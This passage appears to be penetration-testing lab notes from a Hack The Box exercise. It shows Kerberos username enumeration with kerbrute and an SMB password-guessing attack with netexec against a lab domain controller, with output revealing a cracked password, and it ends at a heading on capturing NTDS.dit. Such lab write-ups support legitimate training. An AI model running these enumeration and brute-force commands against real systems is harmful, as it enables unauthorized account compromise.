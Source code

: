 - We are mainly focused on Username Enumeration right now, it wouldn’t be worth while to password spray against users that don’t even exist on the domain.

```bash
realCustampin@htb[/htb]$ ./kerbrute_linux_amd64 userenum --dc 10.129.201.57 --domain inlanefreight.local names.txt    __             __               __
   / /_____  _____/ /_  _______  __/ /____
  / //_/ _ \\/ ___/ __ \\/ ___/ / / / __/ _ \\
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\\___/_/  /_.___/_/   \\__,_/\\__/\\___/

Version: v1.0.3 (9dad6e1) - 04/25/25 - Ronnie Flathers @ropnop

2025/04/25 09:17:10 >  Using KDC(s):
2025/04/25 09:17:10 >   10.129.201.57:88

2025/04/25 09:17:11 >  [+] VALID USERNAME:       bwilliamson@inlanefreight.local
<SNIP>
```

Once we gather a solid list of usernames, we can then go and start brute-forcing the Username with a password list that we provide with **netexec.**

```bash
realCustampin@htb[/htb]$ netexec smb 10.129.201.57 -u bwilliamson -p /usr/share/wordlists/fasttrack.txtSMB         10.129.201.57     445    DC01           [*] Windows 10.0 Build 17763 x64 (name:DC-PAC) (domain:dac.local) (signing:True) (SMBv1:False)
SMB         10.129.201.57     445    DC01             [-] inlanefrieght.local\\bwilliamson:winter2017 STATUS_LOGON_FAILURE
SMB         10.129.201.57     445    DC01             [-] inlanefrieght.local\\bwilliamson:winter2016 STATUS_LOGON_FAILURE
SMB         10.129.201.57     445    DC01             [-] inlanefrieght.local\\bwilliamson:winter2015 STATUS_LOGON_FAILURE
SMB         10.129.201.57     445    DC01             [-] inlanefrieght.local\\bwilliamson:winter2014 STATUS_LOGON_FAILURE
SMB         10.129.201.57     445    DC01             [-] inlanefrieght.local\\bwilliamson:winter2013 STATUS_LOGON_FAILURE
SMB         10.129.201.57     445    DC01             [-] inlanefrieght.local\\bwilliamson:P@55w0rd STATUS_LOGON_FAILURE
SMB         10.129.201.57     445    DC01             [-] inlanefrieght.local\\bwilliamson:P@ssw0rd! STATUS_LOGON_FAILURE
SMB         10.129.201.57     445    DC01             [+] inlanefrieght.local\\bwilliamson:P@55w0rd!

```

## Event Logs from Dictionary Attack

![image.png](attachment:77c9b7d4-1284-4108-9ac5-bd4026ea673a:image.png)

## Capturing NTDS.dit
